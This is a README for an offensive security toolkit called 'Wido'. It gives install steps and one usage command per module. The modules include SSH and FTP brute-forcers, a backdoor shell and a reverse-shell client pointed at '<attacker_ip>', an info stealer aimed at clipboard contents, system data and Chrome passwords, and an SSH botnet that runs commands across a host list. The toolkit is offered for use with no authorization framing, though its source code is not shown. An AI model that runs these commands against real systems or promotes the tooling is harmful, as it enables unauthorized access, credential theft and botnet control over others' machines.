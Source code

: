 # Wido: All-in-one Offensive Security Toolkit

A comprehensive offensive security toolkit with multiple modules:
- Port Scanner
- Hash Cracker
- SSH Brute-force
- FTP Brute-force
- Backdoor Shell (server/client)
- Backdoor Reverse Shell (server/client)
- Info Stealer (clipboard, system info, Chrome passwords placeholder)
- SSH Botnet
- Vulnerability Scanner
- Subdomain Finder
- Alive Subdomain Checker
- PDF Protection (add password to PDF)
- PDF Cracker (crack PDF password)
- Network Scanner (ping sweep)

## Installation

1. Clone this repository
2. Install dependencies:
```bash
pip install -r requirements.txt
pip install paramiko pyperclip psutil PyPDF2
```

## Usage

Show all modules and help:
```bash
python wido.py --help
```

### Example Commands

- **Port Scanner:**
  ```bash
  python wido.py port-scan --target 192.168.1.1 --ports 22,80,443,8000-8100
  ```
- **Hash Cracker:**
  ```bash
  python wido.py hash-crack --hashes hashes.txt --wordlist rockyou.txt
  ```
- **SSH Brute:**
  ```bash
  python wido.py ssh-brute --host 192.168.1.2 --user root --wordlist pass.txt
  ```
- **FTP Brute:**
  ```bash
  python wido.py ftp-brute --host 192.168.1.3 --user admin --wordlist pass.txt
  ```
- **Backdoor Server:**
  ```bash
  python wido.py backdoor-server --port 4444
  ```
- **Backdoor Client:**
  ```bash
  python wido.py backdoor-client --host 1.2.3.4 --port 4444
  ```
- **Backdoor Reverse Shell (Server):**
  ```bash
  python wido.py backdoor-reverse-server --port 4444
  ```
- **Backdoor Reverse Shell (Client):**
  ```bash
  python wido.py backdoor-reverse-client --host <attacker_ip> --port 4444
  ```
- **Info Stealer:**
  ```bash
  python wido.py info-stealer
  ```
- **SSH Botnet:**
  ```bash
  python wido.py ssh-botnet --hosts hosts.txt --command "ls -la"
  ```
- **Vulnerability Scanner:**
  ```bash
  python wido.py vuln-scan --path ./code
  ```
- **Subdomain Finder:**
  ```bash
  python wido.py subdomain --domain example.com
  ```
- **Alive Subdomains:**
  ```bash
  python wido.py alive-subdomains --input subdomains.txt --output alive.txt
  ```
- **PDF Protection:**
  ```bash
  python wido.py pdf-protect --input file.pdf --output protected.pdf --password secret
  ```
- **PDF Cracker:**
  ```bash
  python wido.py pdf-crack --input protected.pdf --wordlist words.txt
  ```
- **Network Scanner:**
  ```bash
  python wido.py network-scan --subnet 192.168.1.0/24
  ```

## Requirements

- Python 3.7+
- Standard modules: socket, threading, subprocess, hashlib, ftplib, argparse, etc.
- Extra modules:
  - paramiko (for SSH features)
  - pyperclip (for clipboard in info-stealer)
  - psutil (for system info in info-stealer)
  - PyPDF2 (for PDF features)
  - scanner.py (for vuln-scan, subdomain, alive-subdomains)

Install extra modules with:
```bash
pip install paramiko pyperclip psutil PyPDF2
```

## Contributing

Feel free to submit issues and enhancement requests! 